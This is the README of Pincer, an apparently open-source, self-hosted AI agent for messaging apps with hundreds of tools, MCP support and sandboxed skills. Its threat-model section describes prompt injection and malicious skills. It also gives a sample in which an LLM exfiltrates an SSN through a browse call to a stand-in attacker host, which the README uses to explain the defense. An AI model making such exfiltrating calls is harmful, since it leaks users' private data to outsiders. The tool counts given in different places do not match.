

<div align="center">


# Pincer

**Open-source AI agent that works across WhatsApp, Telegram, Slack, Email, Voice, and 600+ tools — self-hosted, security-first, runs in Docker.**

[](https://pypi.org/project/pincer-agent/)
[](https://python.org)
[](https://github.com/pincerhq/pincer/actions)
[](https://codecov.io/gh/pincerhq/pincer)
<br>
[](LICENSE)
[](https://discord.gg/eM9Y6utd)
[](https://pepy.tech/projects/pincer-agent)


</div>

```bash
pip install pincer-agent && pincer init
```

<div align="center">

[Website](https://pincer.sh) · [Docs](https://pincer.sh/docs) · [Quick Start](#-quick-start) · [Discord](https://discord.gg/pincer) · [Contributing](docs/Contributing.md) · [Changelog](CHANGELOG.md)

</div>

---

### 🆕 What's new in 0.7.6 (2026-04-19)

- **Slack Native — 71 tools** (messages, channels, users, files, reactions, pins/bookmarks/reminders/search) in `src/pincer/integrations/slack/`. Enable with `PINCER_SLACK_BOT_TOKEN` (+ `PINCER_SLACK_USER_TOKEN` for search).
- **MCP OAuth 2.0 Authorization Server** — expose Pincer tools to remote MCP clients: `/authorize` · `/token` · `/introspect` · `/revoke`, RFC 8414 metadata, PKCE, JWT, scope-based access.
- **Google Workspace Meet v2** — 27 new tools (spaces, conference records, recordings, transcripts, smart notes). Google Workspace total is now **113**.
- **Tools Catalog** — `docs/TOOLS_CATALOG.md` documents all **297 native tools** (24 core + 27 skills + 113 Google Workspace + 62 Microsoft 365 + 71 Slack) plus unlimited via MCP.

📖 Full release notes → [`CHANGELOG.md`](CHANGELOG.md) · Upgrade guide → [`docs/announcements/v0.7.6.md`](docs/announcements/v0.7.6.md)

---

### TL;DR

- **What:** An open-source AI agent that lives in WhatsApp, Telegram, Discord, Slack, Signal, and Email — 600+ tools out of the box (Google Workspace, Microsoft 365, native Slack, Google Meet, image generation, voice calling, MCP), connects to any MCP server, and actually does things
- **For whom:** Developers and technical users who want a personal agent they can self-host, audit, and extend
- **Why it exists:** Existing agents had [malicious plugins](https://pincer.sh/docs/security), surprise bills, and codebases too large to review
- **How it's different:** Clean Python codebase. Straightforward config via env vars. Skills sandboxed in subprocesses. Hard daily spending cap
- **How it stays safe:** User allowlist, tool approval prompts, AST scanning, skill signing, structured audit log — and `pincer doctor` to verify it all

---

## What is this?

Pincer is an open-source AI agent that lives in your messaging apps. You text it — *"check my emails, summarize anything important, and add the meetings to my calendar"* — and it does it. It runs on your machine, talks to the LLM of your choice, and the entire codebase is readable Python you can audit in an afternoon.

> **You (WhatsApp):** Check my email and brief me on anything important
>
> **🦜 Pincer:**
> 📧 12 unread, 3 need attention:
>
> 1. Contract from Sarah — needs signature by 5pm
> 2. Server alert — CPU spike on prod (resolved itself)
> 3. Board meeting moved to Thursday 2pm
>
> 📅 Updated your calendar:
> • Thu 2pm — Board meeting (moved from Wednesday)
> • Fri 11am — Design review follow-up (new)
>
> 💰 $0.003 · $4.92 remaining today

---

## Why I built this

I was running a popular AI agent when two things happened in the same week: I got hit with a **$127 API bill** I didn't authorize, and a security researcher found that a skill I'd installed had been quietly phoning home with my chat history.

By day, I'm a radiologist — I also research and build AI for the medical sector. When your work involves regulated patient data, seeing a personal AI agent silently exfiltrate conversations hits differently. I realized the agent I wanted didn't exist: one where I could **read the whole codebase**, set a **hard spending cap**, and know that plugins are **strictly sandboxed**.

So I built it. Pincer is the agent I wanted. If you want the same thing, it's yours.

---

## Design Trade-offs Compared

> **Fair comparison note:** OpenClaw is a respected project that proved personal AI agents are what people want. It optimizes for plugin ecosystem breadth and community size. Pincer optimizes for auditability, cost control, and sandboxed security. Different goals, different trade-offs. Versions compared: Pincer 0.7.x vs OpenClaw as of Feb 2026.

|  | **Pincer** | **OpenClaw** | **LangChain agents** | **Custom bot** |
|---|:---:|:---:|:---:|:---:|
| **Codebase** | Auditable Python | 200K+ LOC | Framework + glue | Yours |
| **Language** | Python | TypeScript | Python | Any |
| **Install → first message** | ~5 min | 30–60 min | Hours | Days |
| **Skill isolation** | Subprocess sandbox | In-process | DIY | DIY |
| **Skill vetting** | AST scan + safety score + optional signing | Community-reported | DIY | DIY |
| **Cost controls** | Hard daily cap, auto-downgrade, per-response cost | None built-in | None built-in | DIY |
| **Config surface** | Env vars + optional TOML | Multi-file JSON | Code | Code |
| **Channels** | 9 + voice calling | 2–3 | 0 | 1 (usually) |
| **Native tool count** | 303 (303+ MCP) | ~60 | ~40 | DIY |
| **Memory** | Cross-channel, FTS5 + embeddings | Per-channel | Needs setup | DIY |
| **MCP** | Full client + OAuth 2.0 server | None | Plugins | DIY |
| **Google Workspace** | 113 tools (Gmail/Calendar/Drive/Docs/Sheets/Slides/Meet/Tasks/Contacts) | Partial | DIY | DIY |
| **Microsoft 365** | 62 tools (Outlook/Calendar/OneDrive/OneNote/To Do), multi-user | None | DIY | DIY |
| **Slack (native)** | 71 tools (messages/channels/users/files/reactions) | None | DIY | DIY |
| **Image generation** | fal.ai + Gemini built-in | None | DIY | DIY |

---

## ⚡ Quick Start

### Prerequisites

You need three things: **Python 3.12+**, **an LLM API key** (Anthropic or OpenAI out of the box; Grok, Ollama, and any OpenAI-/Anthropic-compatible endpoint also supported), and **a Telegram bot token** (takes 2 min via [@BotFather](https://t.me/BotFather)).

### Option 1: pip

```bash
pip install pincer-agent
pincer init                  # 5-min interactive wizard
pincer run                   # done — message your bot on Telegram
```

### Option 2: Docker

```bash
git clone https://github.com/pincerhq/pincer.git && cd pincer
cp .env.example .env         # edit with your API keys
docker compose up -d         # dashboard on localhost:8080
```

### Option 3: One-click cloud

[](https://railway.app/template/pincer)
[](https://render.com/deploy?repo=https://github.com/pincerhq/pincer)
[](https://cloud.digitalocean.com/apps/new?repo=https://github.com/pincerhq/pincer)

### Minimal .env

```bash
PINCER_ANTHROPIC_API_KEY=sk-ant-...    # well-known: anthropic or openai (compatible endpoints use *_COMPATIBLE_*)
PINCER_TELEGRAM_BOT_TOKEN=7000000:AAx... # From @BotFather
PINCER_TELEGRAM_ALLOWED_USERS=123456789  # Your Telegram user ID
PINCER_DAILY_BUDGET_USD=5.00           # Hard daily spending limit in USD
```

**[Full config reference →](docs/PROJECT_STRUCTURE.md)**

---

## Core vs Peripheral

Pincer is solo-maintained. To set honest expectations, features are explicitly split:

| Tier | What's included | Maintenance guarantee |
|------|----------------|----------------------|
| **🟢 Core** | Agent loop, memory, tools, security, cost controls, Telegram | CI-tested, regression-protected, release-blocking |
| **🟡 Stable** | WhatsApp, Discord, Slack (channel + 71 native tools), Email, Google Workspace (113 tools), dashboard, skills system | Tested, maintained, may lag 1–2 weeks on upstream API changes |
| **🧪 Peripheral** | Voice calling, Signal, Microsoft 365 (62 tools, multi-user), MCP client + OAuth 2.0 server, image generation, proactive scheduler | Working, documented, community-maintained welcome |
| **🔮 Planned** | iMessage, SMS, Zoom, Viber, WeChat, Matrix | Not yet started — [help wanted](https://github.com/pincerhq/pincer/labels/help-wanted) |

---

## 📱 Channels

| Channel | Tier | How it works |
|---------|:----:|------|
| **Telegram** | 🟢 | Bot API via aiogram 3.x — keyboards, voice notes, images, groups |
| **WhatsApp** | 🟡 | Multi-device protocol via neonize — QR pairing, no API costs |
| **Discord** | 🟡 | Slash commands, threads, rich embeds via discord.py |
| **Slack** | 🟡 | DMs, channels, threads via slack-bolt |
| **Microsoft Teams** | 🧪 | DMs, channel @mentions, threads, group chats via microsoft-teams-apps SDK (inbound HTTP push) |
| **Email** | 🟡 | Gmail OAuth — read, search, draft, send |
| **Signal** | 🧪 | E2E encrypted via signal-cli-rest-api Docker sidecar; WebSocket or poll receive mode |
| **Voice** | 🧪 | Make/receive phone calls via Twilio (~$0.12/3-min call) |
| **Web UI** | 🟡 | Dashboard + chat at `localhost:8080` |

**Cross-channel memory:** Tell the agent something on WhatsApp. Ask about it on Telegram. It remembers — SQLite + FTS5 full-text search, vector embeddings for semantic recall, auto-summarization, and entity extraction.

---

## 🔧 Tools — 303 native, 600+ with MCP

Pincer ships **303 first-party tools** and plugs into **any MCP server** to reach 600+ out of the box. Full list in **[docs/TOOLS_CATALOG.md](docs/TOOLS_CATALOG.md)**.

| Category | Count | Enable with |
|---|---:|---|
| Core built-ins (`shell_exec`, `python_exec`, file ops, browser, email, calendar, image, voice) | 23 | Always on |
| Bundled skills (SKILL.md, progressive disclosure: `load_skill`/`load_skill_reference`/`run_skill_script`) | 5 | Always on |
| **Google Workspace** — Gmail · Calendar · Drive · Docs · Sheets · Slides · Meet · Tasks · Contacts | **113** | `pincer google setup` |
| **Microsoft 365** — Outlook · Calendar · OneDrive · OneNote · To Do · Contacts · Directory (multi-user) | **62** | `ms365-mcp-setup` |
| **Slack (native)** — messages · channels · users · files · reactions · pins · reminders · search | **71** | `PINCER_SLACK_BOT_TOKEN` |
| **MCP tools** (GitHub, Postgres, Notion, Linear, Stripe, filesystem, …) | unlimited | `pincer.toml` + `[mcp]` |
| Custom skills (drop a `SKILL.md` dir in `~/.pincer/skills/`, sandboxed scripts) | unlimited | filesystem, no install step |

**Approval model:** destructive tools (`shell_exec`, `python_exec`, `file_write`, `email_send`, `make_phone_call`, and every writing action on external APIs) ask in chat before executing. You reply ✅ or ❌.

**[Full tools catalog →](docs/TOOLS_CATALOG.md)**

<details>
<summary><strong>Python SDK</strong></summary>

```python
from pincer import Agent

agent = Agent()
result = agent.ask("Summarize ~/data/sales.csv and plot monthly trends")
result.display()  # renders inline in Jupyter
```

```python
async with Agent() as agent:
    result = await agent.run("What meetings do I have tomorrow?")
    print(result.text)
    print(f"Cost: ${result.cost:.4f}")
```

</details>

---

## 🖼️ Image Generation

Pincer has a built-in `generate_image` tool powered by **fal.ai** (primary) and **Google Gemini** (fallback). The provider is selected automatically based on which key is configured.

```bash
# Enable fal.ai (recommended)
PINCER_FAL_KEY=...

# Or Gemini
PINCER_GEMINI_API_KEY=...

# Optional controls
PINCER_IMAGE_MAX_COST_PER_REQUEST=0.10   # USD cap per generation
PINCER_IMAGE_DAILY_LIMIT=50             # Max generations per day
```

Install the optional dependency:

```bash
pip install "pincer-agent[image]"
```

> **You (Telegram):** Generate an image of a futuristic Tokyo street at night in cyberpunk style
>
> **🦜 Pincer:** *(sends the generated image inline)* Done — generated in 4.2s via fal.ai · $0.004

---

## 🔌 MCP — Model Context Protocol

Pincer is a full MCP client **and** MCP server. Connect any MCP-compliant tool server (GitHub, Postgres, Notion, Stripe, custom) and its tools appear in the agent automatically.

```toml
# pincer.toml
[[mcp.servers]]
name = "github"
command = "npx"
args = ["-y", "@modelcontextprotocol/server-github"]
env = { GITHUB_PERSONAL_ACCESS_TOKEN = "ghp_..." }

[[mcp.servers]]
name = "postgres"
command = "npx"
args = ["-y", "@modelcontextprotocol/server-postgres", "postgresql://..."]
```

```bash
pincer mcp list          # show connected servers + status
pincer mcp tools         # list all registered MCP tools
pincer mcp test github   # test a specific server connection
pincer mcp call github get_file_contents --repo pincerhq/pincer --path README.md
```

Install the optional dependency:

```bash
pip install "pincer-agent[mcp]"
```

### MCP OAuth 2.0

Pincer also acts as an **OAuth 2.0 Authorization Server** for MCP clients. Any MCP client can authenticate against Pincer using standard OAuth 2.0 with PKCE:

- `/authorize`, `/token`, `/introspect`, `/revoke` endpoints
- RFC 8414 server metadata
- Scope-based access control
- JWT tokens via PyJWT
- Bearer token middleware for protected routes

**[Full MCP guide →](docs/mcp-guide.md)**

---

## 🧩 Skills

Skills extend the agent with Anthropic's open [Agent Skills](https://www.anthropic.com/) format: a directory with a `SKILL.md` file, discovered purely from the filesystem — no install step, no CLI. Skills and MCP servers coexist.

Drop one in `~/.pincer/skills/<name>/SKILL.md` and restart; the agent reads its name + description from the system prompt, then calls `load_skill(name)` to read the full instructions, `load_skill_reference(name, path)` for extra files, and `run_skill_script(name, script, args)` — sandboxed, approval-gated — if it ships a script.

5 bundled skills ship with Pincer, documenting its own capabilities: `skill-authoring`, `memory-recall`, `mcp-server-setup`, `scheduler-briefings`, `doctor-troubleshooting`.

<details>
<summary><strong>Writing your own skill</strong></summary>

```markdown
<!-- skills/weather/SKILL.md -->
---
name: weather
description: Get current weather for a city. Load when asked about weather or forecasts.
---

# Weather

Call `run_skill_script("weather", "scripts/get_weather.py", [city])` to fetch
current conditions, then summarize the result for the user.
```

```python
# skills/weather/scripts/get_weather.py
import sys
import urllib.request

city = sys.argv[1]
with urllib.request.urlopen(f"https://wttr.in/{city}?format=j1") as resp:
    print(resp.read().decode())
```

`run_skill_script` runs in a subprocess sandbox (memory/CPU limits, network domain allowlist) and always asks for approval before executing.

**[Full skills guide →](docs/guides/skills-guide.md)**

</details>

---

## 🛡️ Security & Threat Model

Pincer is designed around two assumptions: **every inbound message is untrusted input**, and **every skill is potentially malicious**.

### What Pincer protects against

| Threat | How |
|--------|-----|
| **Unauthorized access** | User allowlist — unapproved IDs are silently dropped |
| **Destructive tool calls** | Dangerous tools require explicit ✅ approval in chat |
| **Malicious skills** | Subprocess sandbox (memory cap, CPU timeout, filesystem isolation, network whitelist) |
| **Supply-chain attacks** | AST scanning pre-install + optional cryptographic skill signing |
| **Prompt injection via tools** | Tool outputs are sanitized; system prompt is hardened against injection |
| **Runaway costs** | Hard daily budget, per-session limits, auto-downgrade at 80% spend |
| **Forensic blindness** | Structured JSON audit log for every action — who, what, when, cost |
| **Unauthorized MCP access** | OAuth 2.0 + PKCE + scope enforcement on all MCP server routes |

### What Pincer does NOT protect against

- **Compromised host OS** — if your server is rooted, all bets are off
- **Malicious LLM provider** — if the API itself is compromised, Pincer can't detect that
- **Social engineering of the user** — Pincer can't stop you from approving a bad tool call
- **Side-channel exfiltration** — a skill that encodes data into tool output text could leak information to the LLM context; we mitigate but can't fully prevent this

### Honest trade-offs

Sandboxing adds **40–120ms latency** per tool call (subprocess spawn + IPC). For most use cases this is unnoticeable. For latency-critical pipelines, you can disable sandboxing per-skill at your own risk via `sandbox: false` in the manifest.

### Real-world failure example

If the LLM attempts to exfiltrate data by crafting a `browse` URL containing sensitive content (e.g., `browse("https://evil.example/log?ssn=123-45-6789")`), the request executes — Pincer doesn't inspect tool *input* semantics, only permissions. Mitigation: the audit log captures every tool call, and `pincer doctor` flags unusual outbound patterns. Full prevention requires output filtering, which is on the roadmap.

### `pincer doctor`

One command audits your setup — 40+ checks covering config, keys, permissions, skills, MCP, image generation, and network exposure:

```
$ pincer doctor
  🦜 Pincer Doctor v0.8.x
  ✅ API key valid (claude-sonnet-4-5-20250929)
  ✅ Telegram connected (@my_pincer_bot)
  ✅ Daily budget: $5.00
  ✅ 11 skills installed, all scored ≥ 80
  ✅ Google Workspace: 113 tools registered
  ✅ Microsoft 365: 62 tools registered (per-identity auth, lazy on first use)
  ✅ Slack native: 71 tools registered
  ✅ MCP: 2 servers connected (github, postgres) — 42 extra tools
  ✅ Image generation: fal.ai key present, daily limit 50
  ⚠️  Discord DM policy is "open" — consider "pairing"
  ✅ No exposed ports beyond localhost
  44 passed · 1 warning · 0 critical
```

**[Full security model →](docs/Security.md)** · Found a vulnerability? **[Security Policy](docs/Security%20Policy.md)**

---

## 📊 Quantified Use Cases

**Personal email triage (real numbers from beta testing):**
- 40–60 emails/day processed, 3–5 flagged as important
- Calendar auto-updated 2–3 times/day
- Daily LLM cost: **$0.18–$0.35** (Claude Sonnet 4.5)
- Monthly: **~$7** with daily budget cap of $0.50

**Voice calling for appointments:**
- 4 outbound calls/week (dentist, insurance, scheduling)
- Average call duration: 2.5 minutes
- Cost per call: **~$0.12** (Twilio + Deepgram + ElevenLabs)
- Monthly voice cost: **~$2**

**Image generation:**
- On-demand via fal.ai: **~$0.004/image** (fal-ai/nano-banana-2)
- Configurable daily limit and per-request cost cap
- Images delivered inline in Telegram, Discord, and Web UI

**Fully offline with Ollama:**
- Llama 3.3 70B via Ollama on an M2 Mac
- API cost: **$0.00**. Response time: 3–8 seconds depending on context length
- Trade-off: less reliable tool use than Claude, no voice calling

---

## Who this is NOT for

- **Non-technical users** — Pincer requires terminal access, env vars, and API keys. There's no GUI installer.
- **Enterprises needing SSO/compliance today** — multi-user, audit export, and SSO are planned but not shipped yet.
- **Zero-setup expectations** — you will spend 5–10 minutes configuring API keys and channel tokens.
- **People who want a hosted service** — Pincer runs on your machine. Managed hosting is on the roadmap, not available today.

---

## What we intentionally didn't build

- **No hosted cloud** — your data stays on your hardware. We're not a SaaS.
- **No auto-installed skills** — skills are only loaded from directories you place under `~/.pincer/skills/` yourself; scripts they ship always require approval before executing.
- **No team features** — Pincer is a single-user personal agent. Multi-user is planned, not promised.
- **No telemetry** — zero analytics, zero crash reports, zero phone-home. Verify: `grep -r "telemetry\|analytics\|tracking" src/`.
- **No framework dependency** — no LangChain, no CrewAI, no abstractions. Pure `asyncio` + provider SDKs.

These are focus decisions, not limitations. Every feature we didn't build is maintenance we didn't take on.

---

<details>
<summary><strong>🤖 Supported Models</strong></summary>

Configure a primary provider and up to 3 failovers (`PINCER_FALLBACK_PROVIDERS`) — on an error the primary falls over to a randomly-chosen failover.

**Two well-known providers** need only an API key (base URL is built in):

| Provider | Env var | Models |
|----------|---------|--------|
| **Anthropic** ⭐ | `PINCER_ANTHROPIC_API_KEY` | Claude Opus 4.6 / Sonnet 4.5 / Haiku 4.5 |
| **OpenAI** | `PINCER_OPENAI_API_KEY` | GPT-4o / GPT-5 / o-series |

**Everything else** (Grok, Ollama, OpenRouter, DeepSeek, LiteLLM, local proxies, gateways) is a *compatible endpoint* — anything speaking the OpenAI or Anthropic wire format. Name it, point it at a base URL, set its model.

**Each provider carries its own model**, so failover always targets a model that endpoint actually has (`*_MODEL` / `*_COMPATIBLE_MODEL`; empty → `PINCER_DEFAULT_MODEL`).

#### Fast config (one provider, the common case)

```bash
PINCER_DEFAULT_PROVIDER=anthropic
PINCER_ANTHROPIC_API_KEY=sk-ant-...
PINCER_DEFAULT_MODEL=claude-sonnet-4-5-20250929
```

Single compatible endpoint, e.g. Grok or fully-offline Ollama:

```bash
# Grok (OpenAI-compatible wire)
PINCER_DEFAULT_PROVIDER=grok
PINCER_OPENAI_COMPATIBLE_PROVIDER=grok
PINCER_OPENAI_COMPATIBLE_BASE_URL=https://api.x.ai/v1
PINCER_OPENAI_COMPATIBLE_API_KEY=xai-...
PINCER_OPENAI_COMPATIBLE_MODEL=grok-3

# Ollama (OpenAI-compatible wire, no key — $0)
PINCER_DEFAULT_PROVIDER=ollama
PINCER_OPENAI_COMPATIBLE_PROVIDER=ollama
PINCER_OPENAI_COMPATIBLE_BASE_URL=http://localhost:11434/v1
PINCER_OPENAI_COMPATIBLE_MODEL=llama3.2
```

#### Extended config (up to 4 providers, each its own model)

One primary + three failovers; the router falls over in random order, each using its own model:

```bash
PINCER_DEFAULT_PROVIDER=anthropic
PINCER_FALLBACK_PROVIDERS=openai,grok,my-claude
PINCER_DEFAULT_MODEL=claude-sonnet-4-5-20250929      # primary (anthropic)
# well-known OpenAI failover
PINCER_OPENAI_API_KEY=sk-...
PINCER_OPENAI_MODEL=gpt-4o
# OpenAI-wire compatible failover (Grok)
PINCER_OPENAI_COMPATIBLE_PROVIDER=grok
PINCER_OPENAI_COMPATIBLE_BASE_URL=https://api.x.ai/v1
PINCER_OPENAI_COMPATIBLE_API_KEY=xai-...
PINCER_OPENAI_COMPATIBLE_MODEL=grok-3
# Anthropic-wire compatible failover (proxy/gateway)
PINCER_ANTHROPIC_COMPATIBLE_PROVIDER=my-claude
PINCER_ANTHROPIC_COMPATIBLE_BASE_URL=https://your-proxy/v1
PINCER_ANTHROPIC_COMPATIBLE_API_KEY=...
PINCER_ANTHROPIC_COMPATIBLE_MODEL=claude-3-7-sonnet
```

One OpenAI-wire + one Anthropic-wire compatible endpoint can run side by side (one `*_COMPATIBLE_*` set each), so the maximum distinct pool is `anthropic` + `openai` + one OpenAI-compatible + one Anthropic-compatible.

**Recommendation:** Claude Sonnet 4.5 for tool-use quality and prompt-injection resistance. Ollama for zero-cost, fully private operation.

</details>

<details>
<summary><strong>⏰ Proactive Agent</strong></summary>

Pincer doesn't just respond — it reaches out.

**Morning briefing** (7 AM, configurable): weather, today's calendar, top 3 emails, habit check-in.

**Scheduled tasks:** `"Remind me every Friday at 5pm to submit my timesheet"` → cron-scheduled with full cron syntax support, created/removed/toggled entirely via chat. Runs on a durable, retryable [repid](https://pypi.org/project/repid/) actor system — in-process by default, or a horizontally-scalable Redis-backed worker (`pincer run tasks`) for multi-instance deployments. See [Background Tasks](docs/core-components/background-tasks.md).

**Event triggers:** Gmail pub/sub for real-time email reactions, webhooks from any service.

</details>

<details>
<summary><strong>💻 CLI Reference</strong></summary>

```bash
pincer init                        # interactive setup wizard
pincer run                         # start agent (all configured channels)
pincer run tasks                   # standalone background-task worker (requires PINCER_TASK_BROKER=redis)
pincer chat                        # CLI chat for testing
pincer doctor                      # security + config audit (40+ checks)
pincer cost                        # spending summary
                                    # skills: no CLI — drop SKILL.md dirs in skills/
pincer mcp list                    # MCP servers + status
pincer mcp test <server>           # test MCP connection
pincer mcp tools                   # list registered MCP tools
pincer mcp call <server> <tool>    # call a specific MCP tool
pincer whatsapp setup              # pair WhatsApp via QR code
pincer signal setup                # pair Signal via QR code
pincer slack setup                 # interactive Slack bot token setup (71 tools)
pincer google setup                # Google Workspace OAuth (113 tools)
ms365-mcp-setup                    # Microsoft 365 device-code auth, default identity (62 tools)
```

See [CLI Reference](docs/reference/cli.md) for the full command list.

**Chat commands** (any channel): `/status`, `/budget`, `/new`, `/compact`, `/model <name>`, `/tools`

</details>

---

## 🏛️ Architecture


```mermaid
graph TD
    WA[📱 WhatsApp] --> CR[Channel Router]
    TG[📱 Telegram] --> CR
    DC[🎮 Discord] --> CR
    SL[💼 Slack] --> CR
    EM[📧 Email] --> CR
    VC[📞 Voice] --> CR
    SG[🔒 Signal] --> CR
    WB[🌐 Web UI] --> CR

    CR --> AC[🧠 Agent Core · ReAct Loop]

    AC --> TR[🔧 Tool Registry + Sandbox]
    AC --> MM[🗃️ Memory · SQLite + FTS5 + Embeddings]
    AC --> SS[👤 Sessions · Per-channel · Per-user]
    AC --> MCP[🔌 MCP Client + OAuth Server]
    AC --> IMG[🖼️ Image Generation · fal.ai + Gemini]

    TR --> BT[Built-in Tools · 304 native]
    TR --> SK[Custom Skills · Sandboxed]
    TR --> GW[Google Workspace · 113 tools]
    TR --> MS[Microsoft 365 · 62 tools · multi-user]
    TR --> SLK[Slack Native · 71 tools]
    MCP --> EXT[External MCP Servers · GitHub · Postgres · etc.]
```

1. Message arrives → load session + relevant memories
2. Send to LLM with available tools (built-in + skills + MCP tools)
3. LLM returns tool call → execute in sandbox → feed result back → repeat
4. LLM returns text → deliver to user via originating channel
5. Save session, update memory, log cost

No frameworks. No abstractions. `async/await` + the Anthropic SDK.

<details>
<summary><strong>Project structure & tech stack</strong></summary>

```
pincer/
├── src/pincer/
│   ├── core/         agent.py, session.py, config.py, soul.py, identity.py
│   ├── llm/          anthropic, openai, grok, ollama, router, cost_tracker
│   ├── channels/     telegram, whatsapp, discord, slack, email, voice, signal, web
│   ├── memory/       store (SQLite+FTS5), embeddings, entities, summarizer
│   ├── tools/        registry, sandbox, approval, builtin/ (24 core tools)
│   ├── skills/       loader, scanner (AST), signer
│   ├── image/        router, provider_fal, provider_gemini, types
│   ├── integrations/
│   │   ├── google/   113 tools — Gmail, Calendar, Drive, Docs, Sheets, Slides, Meet, Tasks, Contacts
│   │   ├── ms365/    62 tools — Outlook, Calendar, OneDrive, OneNote, To Do, Contacts, Directory (multi-user)
│   │   └── slack/    71 tools — messages, channels, users, files, reactions, pins, search
│   ├── mcp/          core, client, manager, bridge, audit, security, exporter, registry_client
│   │   └── auth/     endpoints, tokens, pkce, scopes, consent, token_store (OAuth 2.0 server)
│   ├── voice/        engine, twiml_server, stt, tts, compliance
│   ├── security/     firewall, audit, doctor (40+ checks), rate_limiter
│   ├── costs/        budget
│   ├── scheduler/    cron (schedule store), proactive, triggers
│   └── tasks/        repid actors, dispatch, delivery (durable background execution)
├── skills/           11 bundled (27 tool functions)
├── tests/            pytest + pytest-asyncio
└── docs/             includes TOOLS_CATALOG.md (every tool)
```

**Stack:** Python 3.12+ / asyncio · `anthropic` + `openai` SDKs · `aiogram` 3.x · `neonize` · `discord.py` · `slack-bolt` · `twilio` · `FastAPI` + `HTMX` · SQLite + FTS5 · `Playwright` · `pydantic-settings` · `typer` + `rich` · `mcp>=1.8.0` · `PyJWT[crypto]>=2.8.0` · `fal-client>=0.13.0`

**Optional extras:**

```bash
pip install "pincer-agent[mcp]"    # MCP client + OAuth server
pip install "pincer-agent[image]"  # Image generation (fal.ai + Gemini)
```

</details>

---

## 🗺️ Roadmap

- [x] Agent core, memory, tools, security, cost controls
- [x] Telegram, WhatsApp, Discord, Slack, Microsoft Teams, Email, Signal
- [x] Skill system with sandboxing, AST scanning, signing
- [x] Docker + one-click deploys (Railway, Render, DigitalOcean)
- [x] Voice calling (Twilio + STT/TTS + compliance)
- [x] Google Workspace integration (113 tools via `pincer google setup`)
- [x] Microsoft 365 integration (62 tools, multi-user, lazy per-identity auth)
- [x] Slack native integration (71 tools)
- [x] MCP client + OAuth 2.0 authorization server
- [x] Google Meet full surface — spaces, recordings, transcripts, smart notes
- [ ] **iMessage** — [help wanted](https://github.com/pincerhq/pincer/issues?q=label%3A%22help+wanted%22)
- [ ] **SMS** — Twilio SMS channel
- [ ] **Zoom** — Meeting channel
- [ ] **Encrypted memory** — at-rest database encryption
- [ ] **Multi-agent routing** — specialized sub-agents
- [ ] **Managed hosting** — for non-self-hosters (exploring, not promised)

Full roadmap: [GitHub Discussions → Roadmap](https://github.com/pincerhq/pincer/discussions/categories/roadmap)

---

## Sustainability

Pincer is solo-maintained, open-source, and unfunded. That's a feature, not a weakness — no investor pressure means no forced pivots, no telemetry, no "free tier sunsets."

The plan: grow the contributor community, move toward shared governance as trust is established (see [Governance](docs/Governance.md)), and eventually explore a managed hosting option to fund ongoing maintenance. Nothing is promised beyond what's shipped today.

---

## 🤝 Community

We welcome contributions from everyone — first-timers, experienced engineers, doctors who code, tinkerers, and enthusiasts.

| What | How | Difficulty |
|------|-----|:----------:|
| **Build a skill** | [Skills guide](docs/Skills guide.md) — 50–150 lines | 🟢 Easy |
| **Improve docs** | Fix what confused you, translate, write a tutorial | 🟢 Easy |
| **New channel** | SMS, iMessage, Zoom, Viber, WeChat | 🟡 Medium |
| **Core features** | Encrypted memory, multi-agent routing | 🔴 Hard |

```bash
git clone https://github.com/pincerhq/pincer.git
cd pincer && uv sync && pytest
```

[**Discord**](https://discord.gg/pincer) · [**GitHub Discussions**](https://github.com/pincerhq/pincer/discussions) · [**Contributing guide**](docs/Contributing.md) · [**Governance**](docs/Governance.md)

---

## 📖 Documentation

| Doc | What's in it |
|-----|-------------|
| **[Quick Start](docs/Quickstart.md)** | Install to first message in 5 minutes |
| **[Development Guide](docs/DEVELOPMENT.md)** | Local setup, tests, dashboard, debugging, skills/channels/tools |
| **[Contributing](docs/Contributing.md)** | PR guidelines, code style, ruff/mypy, CI |
| **[Architecture](docs/PROJECT_STRUCTURE.md)** | How it works, with Mermaid diagrams |
| **[Configuration](docs/PROJECT_STRUCTURE.md)** | Every env var, every option |
| **[Skills Guide](docs/Skills guide.md)** | Build and publish custom skills |
| **[Security Model](docs/Security.md)** | Full threat model, 8 defense layers |
| **[Deployment](docs/Deployment.md)** | Docker, cloud, systemd, reverse proxy |
| **[Voice Setup](docs/Voice-calling-setup.md)** | Quick setup for outbound phone calls |
| **[Voice Calling](docs/Voice calling.md)** | Twilio setup, STT/TTS, compliance |
| **[Signal Setup](docs/signal-setup.md)** | signal-cli Docker sidecar setup |
| **[Microsoft Teams Setup](docs/teams-setup.md)** | Azure Bot registration + ngrok local dev |
| **[MCP Guide](docs/mcp-guide.md)** | Connect any MCP-compliant server; OAuth 2.0 server setup |
| **[API Reference](docs/API reference.md)** | REST API for integrations |
| **[Tools Catalog](docs/TOOLS_CATALOG.md)** | Every tool Pincer can call — 304 native + MCP |
| **[Microsoft 365 MCP Guide](docs/guides/ms365-mcp.md)** | Azure app registration + multi-user device-code auth + 62 tools |
| **[Migrating from OpenClaw](docs/Migration from openclaw.md)** | Import your data in 30 min |

---

## 🙏 Acknowledgements

[Anthropic](https://anthropic.com) · [aiogram](https://github.com/aiogram/aiogram) · [neonize](https://github.com/krypton-byte/neonize) · [discord.py](https://github.com/Rapptz/discord.py) · [Twilio](https://twilio.com) · [Deepgram](https://deepgram.com) · [ElevenLabs](https://elevenlabs.io) · [Playwright](https://playwright.dev/) · [fal.ai](https://fal.ai) · [Rich](https://github.com/Textualize/rich) · [Typer](https://github.com/tiangolo/typer) · [OpenClaw](https://github.com/openclaw/openclaw) — for proving personal AI agents are what people want · Every beta tester and contributor who helped ship this

---

📜 **License:** MIT — [LICENSE](LICENSE) · 🔐 **Security:** [Security Policy](docs/Security%20Policy.md) — do not open public issues for vulnerabilities

---

<div align="center">

🦜 **Built with Python.**

[pincer.sh](https://pincer.sh) · [GitHub](https://github.com/pincerhq/pincer) · [Discord](https://discord.gg/pincer-agent) · [Twitter](https://x.com/@AgentPincer)

If Pincer is useful to you, consider [giving it a ⭐](https://github.com/pincerhq/pincer) — it helps others discover the project.

</div>
